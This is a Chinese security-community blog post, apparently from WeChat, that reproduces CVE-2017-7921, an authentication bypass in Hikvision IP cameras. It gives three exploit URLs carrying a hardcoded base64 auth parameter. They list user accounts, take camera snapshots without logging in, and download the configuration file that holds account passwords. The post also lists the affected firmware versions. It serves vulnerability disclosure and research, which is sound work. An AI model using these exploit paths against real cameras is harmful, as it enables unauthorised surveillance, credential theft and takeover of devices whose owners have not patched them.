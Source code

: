\> 本文由 \[简悦 SimpRead\](http://ksria.com/simpread/) 转码， 原文地址 \[mp.weixin.qq.com\](https://mp.weixin.qq.com/s?\_\_biz=MzI2ODU2MjM0OA==&mid=2247488047&idx=1&sn=ed12d03adc1a34ed7ad451f787d73466&chksm=eaece8ecdd9b61fa41cc59de0443efc9c0761dcfd941e097f33b35d8f721eda050f970e697db&mpshare=1&scene=1&srcid=1013kK5pI1H7Z8y07U39kxKE&sharer\_sharetime=1602548639830&sharer\_shareid=c051b65ce1b8b68c6869c6345bc45da1&key=d1b2c53fcb9e77ee8e3cc82883a781d348e8611a29467272f6a7b54efe085d2f72a868283276242059a72a4af6800eda9ddf543082fbc9709d860c25e0b345d4d7b965b64c2d4ee4ccc863192b5822326093434928b532f26d0a071c13eb24ea56cae89da28609416ba5ff9cee87f0d286317432234ca10be4283f849ebe9486&ascene=1&uin=ODk4MDE0MDEy&devicetype=Windows+10+x64&version=6300002f&lang=zh\_CN&exportkey=AY%2F1PaAAG9yvVXBuY3xLlJg%3D&pass\_ticket=2G6SwO4uyYCX4aTiQDJvW1D1IrAJXn1CnpH%2BbX1rykSOMZNKPaotYwa2vyHnTBud&wx\_header=0)

****文章源自【字节脉搏社区】- 字节脉搏实验室****

**作者 - Beginner**

**扫描下方二维码进入社区：**

**![](https://mmbiz.qpic.cn/mmbiz_png/ia3Is12pQKnK3Fc7MgHHCICGGSg2l58vxaP5QwOCBcU48xz5g8pgSjGds3Oax0BfzyLkzE9Z6J4WARvaN6ic0GRQ/640?wx_fmt=png)**

**0x01 CVE-2017-7921 漏洞复现**

**许多 HikvisionIP 摄像机包含一个后门，允许未经身份验证的模拟任何配置的用户帐户。**

****![](https://mmbiz.qpic.cn/mmbiz_png/Ljib4So7yuWgiazacZwcozhIIJkbibEWTcfRmJfpFw8RCkn9iaZOyT4YJ5JCqCIvRvCLC5RznuKbdPrlfXuXPkevEQ/640?wx_fmt=png)****

![](https://mmbiz.qpic.cn/mmbiz_png/ia3Is12pQKnJuo9wENVvEGBkldE0Xf8ibKHahvrFIU7f8eM99LJwT5Qnn28e4m4Pib0ibTF2aGTwgQ7zUd6HYP2Cpw/640?wx_fmt=png)

**0x02 漏洞复现：**

**利用 Goby 发现漏洞（CVE-2017-7921）：**

****![](https://mmbiz.qpic.cn/mmbiz_png/Ljib4So7yuWgiazacZwcozhIIJkbibEWTcfRmJfpFw8RCkn9iaZOyT4YJ5JCqCIvRvCLC5RznuKbdPrlfXuXPkevEQ/640?wx_fmt=png)****

![](https://mmbiz.qpic.cn/mmbiz_png/ia3Is12pQKnJuo9wENVvEGBkldE0Xf8ibKCYn1icA4hlMhE580Uh4tq1c0vneqaHssLTzHAiczjJBuHHPotOAKOTAw/640?wx_fmt=png)

**利用路径：/Security/users?auth=YWRtaW46MTEK**

**附：检索所有用户及其角色的列表**

****![](https://mmbiz.qpic.cn/mmbiz_png/Ljib4So7yuWgiazacZwcozhIIJkbibEWTcfRmJfpFw8RCkn9iaZOyT4YJ5JCqCIvRvCLC5RznuKbdPrlfXuXPkevEQ/640?wx_fmt=png)****

![](https://mmbiz.qpic.cn/mmbiz_png/ia3Is12pQKnJuo9wENVvEGBkldE0Xf8ibKb72LubCYMoww89T10caoiaEqeWMlUokY6NxnBmJFqzjA8otBHFHjMOA/640?wx_fmt=png)

**利用路径：/onvif-http/snapshot?auth=YWRtaW46MTEK**

**附：获取相机快照而不进行身份验证**

****![](https://mmbiz.qpic.cn/mmbiz_png/Ljib4So7yuWgiazacZwcozhIIJkbibEWTcfRmJfpFw8RCkn9iaZOyT4YJ5JCqCIvRvCLC5RznuKbdPrlfXuXPkevEQ/640?wx_fmt=png)****

![](https://mmbiz.qpic.cn/mmbiz_png/ia3Is12pQKnJuo9wENVvEGBkldE0Xf8ibKfETb1SJK1GjLYsdCLlpe76pSjBfxOgDExViaaVdXRnntKRVjelZ9VSg/640?wx_fmt=png)

**利用路径：**

**/System/configurationFile?auth=YWRtaW46MTEK**

**附：下载摄像头配置账号密码文件**

****![](https://mmbiz.qpic.cn/mmbiz_png/Ljib4So7yuWgiazacZwcozhIIJkbibEWTcfRmJfpFw8RCkn9iaZOyT4YJ5JCqCIvRvCLC5RznuKbdPrlfXuXPkevEQ/640?wx_fmt=png)****

![](https://mmbiz.qpic.cn/mmbiz_png/ia3Is12pQKnJuo9wENVvEGBkldE0Xf8ibKGVu7vZxB7bAsJ6ibtjX3Nop9kGn6YHWcpLXOf59HFHYsTZhZdckdDtw/640?wx_fmt=png)

**0x03 漏洞影响版本：**

**HikvisionDS-2CD2xx2F-ISeries5.2.0build140721**

**版本至 5.4.0build160530 版本；  
**

**DS-2CD2xx0F-ISeries5.2.0build140721**

**版本至 5.4.0Build160401 版本；**

**DS-2CD2xx2FWDSeries5.3.1build150410**

**版本至 5.4.4Build161125 版本；**

**DS-2CD4x2xFWDSeries5.2.0build140721**

**版本至 5.4.0Build160414 版本；**

**DS-2CD4xx5Series5.2.0build140721**

**版本至 5.4.0Build160421 版本；**

**DS-2DFxSeries5.2.0build140805**

**版本至 5.4.5Build160928 版本；**

**DS-2CD63xxSeries5.0.9build140305**

**版本至 5.3.5Build160106 版本**

****![](https://mmbiz.qpic.cn/mmbiz_png/Ljib4So7yuWgiazacZwcozhIIJkbibEWTcfRmJfpFw8RCkn9iaZOyT4YJ5JCqCIvRvCLC5RznuKbdPrlfXuXPkevEQ/640?wx_fmt=png)****

**0x04 参考链接：**

**https://packetstormsecurity.com/files/144097/Hikvision-IP-Camera-Access-Bypass.html  
**

**https://www.seebug.org/vuldb/ssvid-96469**

****![](https://mmbiz.qpic.cn/mmbiz_png/Ljib4So7yuWgiazacZwcozhIIJkbibEWTcfRmJfpFw8RCkn9iaZOyT4YJ5JCqCIvRvCLC5RznuKbdPrlfXuXPkevEQ/640?wx_fmt=png)****

**通知！**

**公众号招募文章投稿小伙伴啦！只要你有技术有想法要分享给更多的朋友，就可以参与到我们的投稿计划当中哦~ 感兴趣的朋友公众号首页菜单栏点击【商务合作 - 我要投稿】即可。期待大家的参与~**

**![](https://mmbiz.qpic.cn/mmbiz_jpg/ia3Is12pQKnKRau1qLYtgUZw8e6ENhD9UWdh6lUJoISP3XJ6tiaibXMsibwDn9tac07e0g9X5Q6xEuNUcSqmZtNOYQ/640?wx_fmt=jpeg)**

**记得扫码**

**关注我们**